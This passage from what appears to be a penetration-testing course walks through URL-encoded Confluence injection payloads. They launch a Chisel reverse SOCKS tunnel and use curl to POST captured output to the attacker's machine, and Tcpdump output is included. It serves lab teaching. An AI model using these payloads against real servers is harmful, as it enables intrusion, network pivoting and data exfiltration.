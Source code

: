 ```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```

> Listing 8 - The Chisel client command we run from the web shell.

We'll convert this into a Confluence injection payload and send it to CONFLUENCE01.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

kali@kali:~$
```

> Listing 9 - Starting the Chisel client using the Confluence injection payload.

However, nothing happens. We don't see any traffic hit our Tcpdump session, and the Chisel server output doesn't show any activity.

This indicates there may be something wrong with the way we're running the Chisel client process on CONFLUENCE01. However, we don't have direct access to the error output when running the binary. We need to figure out a way to read the command output, which may be able to point us towards the problem. We should then be able to solve it.

To read the command output, we can construct a command which redirects stdout and stderr output to a file, and then send the contents of that file over HTTP back to our Kali machine. We use the **&>** operator, which directs all streams to stdout, and write it to **/tmp/output**. We then run **curl** with the **\--data** flag, telling it to read the file at **/tmp/output**, and POST it back to our Kali machine on port 8080.

```
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```

> Listing 10 - The error-collecting-and-sending command string.

We can then create an injection payload using this command string, and send it to the vulnerable Confluence instance.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
kali@kali:~$
```

> Listing 11 - The error-collecting-and-sending injection payload.

On sending this new injection, we check Tcpdump output for attempted connections.

```
...
16:30:50.915895 IP (tos 0x0, ttl 61, id 47823, offset 0, flags [DF], proto TCP (6), length 410)
    192.168.50.63.50192 > 192.168.118.4.8080: Flags [P.], cksum 0x1535 (correct), seq 1:359, ack 1, win 502, options [nop,nop,TS val 391724691 ecr 3105669986], length 358: HTTP, length: 358
        POST / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: curl/7.68.0
        Accept: */*
        Content-Length: 204
        Content-Type: application/x-www-form-urlencoded

        /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
        0x0000:  4500 019a bacf 4000 3d06 f729 c0a8 db3f  E.....@.=..)...?
        0x0010:  c0a8 2dd4 c410 1f90 d15e 1b1b 2b88 002d  ..-......^..+..-
...
```